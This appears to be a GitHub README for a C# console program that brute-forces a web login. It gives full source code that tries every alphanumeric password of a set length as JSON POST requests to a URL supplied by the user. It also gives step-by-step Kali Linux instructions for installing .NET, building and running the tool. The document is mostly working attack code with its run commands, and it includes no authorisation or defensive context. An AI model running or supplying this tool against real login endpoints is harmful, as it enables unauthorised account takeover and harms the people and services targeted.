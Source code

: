 __<p style="font-size:40px">How the Code Works:</p>__

__<p style="font-size:20px">Arguments:</p>__

- url: The URL to which the HTTP POST requests are sent.
- username: The username for which you're trying to brute-force the password.
- passwordLength: The length of the password that will be brute-forced.

**Process:**

1. The program accepts the url, username, and passwordLength as arguments from the command line.
2. It then brute-forces passwords by generating all possible combinations of characters (uppercase, lowercase, and digits).
3. For each password attempt, the program sends an HTTP POST request to the specified URL with the username and the current password.
4. If the server responds with "Success", the correct password is displayed, and the process stops.


**How to Run the Program in Kali Linux:**

**Compile and Run:**

After creating the C# project and adding the code as described earlier, you can run the program using the following command:.

`dotnet run <url> <username> <passwordLength>`

For example:

`dotnet run https://example.com/login myuser 4`

**Explanation of Command:**
- https://example.com/login: This is the URL where the POST requests will be sent.
- myuser: This is the username for which the password is being brute-forced.
- 4: This is the length of the password being tested.

**Notes:**
- This program uses a simple character set of lowercase and uppercase letters, and digits (a-z, A-Z, 0-9).
- You can modify the character set in the charset variable if you want to include additional characters (e.g., special symbols).
- The program expects the server to respond with a string that contains "Success" upon a successful login attempt. You may need to modify this logic depending on the actual server's response format.

  
**Instructions for Using the C# Brute Force Script on Kali Linux via Terminal**

Follow these steps to set up, compile, and run the C# brute force script on Kali Linux through the terminal.

**1. Install .NET SDK on Kali Linux**
  Before running the C# script, you need to install the .NET SDK. Here’s how you can do it:
   
  **1.1 Update your package lists and install the required dependencies:**
    ```
    sudo apt update
    sudo apt install -y apt-transport-https software-properties-common
    ```
   
   **1.2. Add Microsoft’s package signing key and repository:**
    ```
    wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
    sudo dpkg -i packages-microsoft-prod.deb
    ```
   
   **1.3. Install the .NET SDK:**
    ```
    sudo apt update
    sudo apt install -y dotnet-sdk-7.0
    ```
  
  **1.4. Verify the installation:**
    `dotnet --version`
    If installed correctly, it will display the version number (e.g., 7.0.100).

**2. Set Up the Project**
  
   **2.1. Create a new directory for the project:**
   `mkdir BruteForcePassword`
   `cd BruteForcePassword`
  
   **2.2. Create a new C# console application project:**
   `dotnet new console`
   
   This command generates the basic structure for a console project with a Program.cs file.

   **3. Add the Script**
   **3.1. Open the Program.cs file in a text editor:**
   `nano Program.cs`
   **3.2. Replace the content of Program.cs with the script code (provided above):**
```
using System;
using System.Net.Http;
using System.Text;
using System.Threading.Tasks;

class Program
{
    static async Task Main(string[] args)
    {
        if (args.Length != 3)
        {
            Console.WriteLine("Usage: dotnet run <url> <username> <passwordLength>");
            return;
        }

        string url = args[0];
        string username = args[1];
        int passwordLength;

        if (!int.TryParse(args[2], out passwordLength))
        {
            Console.WriteLine("Error: passwordLength must be an integer.");
            return;
        }

        await BruteForcePassword(url, username, passwordLength);
    }

    static async Task BruteForcePassword(string url, string username, int passwordLength)
    {
        using (HttpClient client = new HttpClient())
        {
            string charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
            int charsetLength = charset.Length;
            char[] password = new char[passwordLength];

            for (int i = 0; i < passwordLength; i++)
            {
                password[i] = charset[0];
            }

            bool success = false;

            while (!success)
            {
                string passwordString = new string(password);
                var data = new { username = username, password = passwordString };

                var json = Newtonsoft.Json.JsonConvert.SerializeObject(data);
                var content = new StringContent(json, Encoding.UTF8, "application/json");

                try
                {
                    HttpResponseMessage response = await client.PostAsync(url, content);
                    string responseString = await response.Content.ReadAsStringAsync();

                    Console.WriteLine($"Trying: {passwordString} - Server Response: {response.StatusCode}");

                    if (responseString.Contains("Success"))
                    {
                        Console.WriteLine($"Success! The correct password is: {passwordString}");
                        success = true;
                    }
                }
                catch (Exception ex)
                {
                    Console.WriteLine($"Error: {ex.Message}");
                    return;
                }

                success = IncrementPassword(password, charset, charsetLength);
            }
        }
    }

    static bool IncrementPassword(char[] password, string charset, int charsetLength)
    {
        for (int i = password.Length - 1; i >= 0; i--)
        {
            int currentCharIndex = charset.IndexOf(password[i]);

            if (currentCharIndex < charsetLength - 1)
            {
                password[i] = charset[currentCharIndex + 1];
                return false;
            }

            password[i] = charset[0];
        }

        return true;
    }
}
```

   **3.3. Save and exit the editor:**
   - Press CTRL + O, then Enter to save.
   - Press CTRL + X to exit nano.

**4. Install Newtonsoft.Json (for JSON serialization)**
The script uses `Newtonsoft.Json` for converting data to JSON format. You need to install this package in your project:

   **4.1. Install the Newtonsoft.Json package:**
   `dotnet add package Newtonsoft.Json`
   
**5. Compile and Run the Script**
   **5.1. Compile and run the project with your command-line arguments:**
   `dotnet run <url> <username> <passwordLength>`
   
   - `<url>`: The URL to which the POST requests will be sent.
   - `<username>`: The username for which you are attempting to brute-force the password.
   - `<passwordLength>`: The length of the password being brute-forced.

**Example:**
`dotnet run https://example.com/login myuser 4`

In this example:

   - The program will brute-force the password for the user myuser at https://example.com/login.
   - It will try passwords that are 4 characters long.

**6. Troubleshooting**

   - Ensure the server URL is correct and accessible.
   - The script expects the server to return a response containing the word "Success" upon a successful login. You may need to adjust this part of the code based on the actual response from the server you're testing against.


**Summary of Steps:**

1. Install .NET SDK: Set up the environment on Kali Linux.
2. Create a Project: Use dotnet new console to create a C# project.
3. Add the Script: Replace the default content in Program.cs with the provided script.
4. Install Dependencies: Install the Newtonsoft.Json package for JSON handling.
5. Run the Script: Use dotnet run with the URL, username, and password length as arguments.
6. Now your C# script will execute, sending HTTP POST requests and brute-forcing the password based on the command-line inputs.










































      
    



